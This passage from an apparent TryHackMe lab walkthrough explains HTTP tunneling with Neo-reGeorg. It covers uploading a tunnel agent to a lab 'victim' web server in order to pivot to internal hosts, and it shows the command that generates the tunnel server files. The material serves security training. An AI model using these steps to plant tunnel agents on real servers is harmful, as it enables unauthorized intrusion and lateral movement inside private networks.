 ![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/92004a7c6a572f9680f0056b9aa88baa.png)

In this section, we will create an HTTP tunnel communication channel to pivot into the internal network and communicate with local network devices through HTTP protocol. Let's say that we found a web application that lets us upload an HTTP tunnel agent file to a victim webserver, uploader.thm.com. Once we upload and connect to it, we will be able to communicate with app.thm.com. 

For HTTP Tunneling, we will be using a [Neo-reGeorg](https://github.com/L-codes/Neo-reGeorg) tool to establish a communication channel to access the internal network devices. We have installed the tool in AttackBox, and it can be found in the following location:

```
Neo-reGeorg Path on AttackBox

           
			
root@AttackBox:/opt/Neo-reGeorg#
```

Next, we need to generate an encrypted client file to upload it to the victim web server as follows,

```
Generating encrypted Tunneling Clients with a selected password!

           
			
root@AttackBox:/opt/Neo-reGeorg# python3 neoreg.py generate -k thm                                                                                                                                                                              


          "$$$$$$''  'M$  '$$$@m
        :$$$$$$$$$$$$$$''$$$$'
       '$'    'JZI'$$&  $$$$'
                 '$$$  '$$$$
                 $$$$  J$$$$'
                m$$$$  $$$$,
                $$$$@  '$$$$_          Neo-reGeorg
             '1t$$$$' '$$$$<
          '$$$$$$$$$$'  $$$$          version 3.8.0
               '@$$$$'  $$$$'
                '$$$$  '$$$@
             'z$$$$$$  @$$$
                r$$$   $$|
                '$$v c$$
               '$$v $$v$$$$$$$$$#
               $$x$$$$$$$$$twelve$$$@$'
             @$$$@L '    '<@$$$$$$$$`
           $$                 '$$$


    [ Github ] https://github.com/L-codes/neoreg

    [+] Mkdir a directory: neoreg_servers
    [+] Create neoreg server files:
       => neoreg_servers/tunnel.aspx
       => neoreg_servers/tunnel.ashx
       => neoreg_servers/tunnel.jsp
       => neoreg_servers/tunnel_compatibility.jsp
       => neoreg_servers/tunnel.jspx
       => neoreg_servers/tunnel_compatibility.jspx
       => neoreg_servers/tunnel.php
```
